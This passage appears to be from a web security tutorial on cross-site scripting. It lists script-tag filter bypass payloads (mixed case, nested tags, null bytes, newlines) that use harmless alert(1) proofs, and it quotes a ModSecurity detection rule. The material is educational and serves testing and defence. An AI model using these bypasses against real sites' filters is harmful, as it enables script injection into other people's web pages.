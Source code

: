 The `<script>` tag is the primary method to execute JavaScript.

Some filters do not cover all possible cases, making them weak and prone to bypass techniques. The following is an example of few bypasses for weak `<script>` tag filter rules:

| Bypass Payload                               | Description                                                    |
| -------------------------------------------- | -------------------------------------------------------------- |
| `<ScRiPt>alert(1);</ScRiPt>`                 | Mixed of upper and lower-case characters.                      |
| `<ScRiPt>alert(1);`                          | Mixed of upper and lower-case characters, without closing tag. |
| `<script/random>alert(1);</script>`          | Random string after the tag name.                              |
| `<script`<br>`>alert(1);</script>`           | New line after the tag name.                                   |
| `<scr<script>ipt>alert(1);</scr<script>ipt>` | Nested tags.                                                   |
| `<scr\x00ipt>alert(1);</script>`             | NULL bytes.                                                    |
## ModSecurity Filter Rules
The following is an example of how ModSecurity filters the `<script>` tag:
```txt
SecRule ARGS
"(?i)(<script[^>]*>[\s\S]*?<\/script[^>]*>|<script[^>]
*>[\s\S]*?<\/script[[\s\S]]*[\s\S]|<script[^>]*>[\s\S]
*?<\/script[\s]*[\s]|<script[^>]*>[\s\S]*?<\/script|<s
cript[^>]*>[\s\S]*?)"
...[SNIP]...
```

